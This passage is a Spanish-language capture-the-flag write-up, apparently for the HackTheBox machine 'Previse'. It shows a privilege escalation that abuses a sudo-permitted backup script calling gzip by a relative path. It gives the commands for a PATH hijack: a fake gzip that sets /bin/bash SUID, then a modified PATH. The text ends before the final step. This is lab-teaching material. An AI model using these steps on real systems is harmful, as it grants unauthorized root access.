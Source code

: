Vemos si podemos hacer algo como otro usuario del sistema

```bash
m4lwhere@previse:~$ sudo -l
[sudo] password for m4lwhere: 
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```
Y encontramos un script que podemos ejecutar como el usuario ```root```

Si lo leemos

```bash
m4lwhere@previse:~$ cat /opt/scripts/access_backup.sh
```
<p align="center">
<img src="/assets/images/htb-writeup-previse/gzip.png">
</p>

Podemos rápidamente darnos cuenta de que se está llamando a el comando ```gzip``` de forma relativa, por lo que ya sabemos que podemos hacer un **Path Hijacking** para obtener el root

 - Primero ejecutamos el siguiente comando para insertar la instrucción que convertira la ```/bin/bash``` en **SUID**, dentro de un fichero que se llame ```gzip```

```bash
m4lwhere@previse:~$ echo -e "#\!/bin/bash\nchmod 4755 /bin/bash" > gzip
```
 - Le asignamos permisos de ejecución al fichero que acabamos de crear

```bash
m4lwhere@previse:~$ chmod +x gzip
```
 - Alteramos el path, para que en lugar de empezar buscando el binario ```gzip``` en ```/usr/local/sbin```, use el que acabamos de crear en el directorio actual, esto de la siguiente forma:

```bash
m4lwhere@previse:~$ export PATH=.:$PATH
```
 - Y ejecutamos el script como el usuario ```root```
